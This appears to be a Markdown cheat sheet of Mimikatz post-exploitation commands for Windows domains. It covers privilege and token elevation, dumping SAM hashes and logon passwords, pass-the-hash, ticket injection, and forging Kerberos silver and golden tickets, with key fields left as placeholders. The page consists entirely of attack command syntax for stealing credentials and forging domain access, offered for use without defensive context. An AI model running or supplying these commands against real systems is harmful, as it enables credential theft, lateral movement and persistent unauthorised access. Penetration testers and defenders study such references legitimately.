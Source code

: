 # Mimikatz

## Mimikatz

Post exploitation commands must be executed from SYSTEM level privileges.

* mimikatz \# privilege::debug
* mimikatz \# token::whoami
* mimikatz \# token::elevate
* mimikatz \# lsadump::sam
* mimikatz \# sekurlsa::logonpasswords

### Pass The Hash

* mimikatz \# sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm\_hash

### Inject generated TGS key

* mimikatz \# kerberos::ptt 

### Generating a silver ticket

AES 256 Key:

* mimikatz \# kerberos::golden /domain:/sid: /aes256: /user: /service: /target:

AES 128 Key:

* mimikatz \# kerberos::golden /domain:/sid: /aes128: /user: /service: /target:

NTLM:

* mimikatz \# kerberos::golden /domain:/sid: /rc4: /user: /service: /target:

### Generating a Golden Ticket

AES 256 Key:

* mimikatz \# kerberos::golden /domain:/sid: /aes256: /user:

AES 128 Key:

* mimikatz \# kerberos::golden /domain:/sid: /aes128: /user:

NTLM:

* mimikatz \# kerberos::golden /domain:/sid: /rc4: /user:

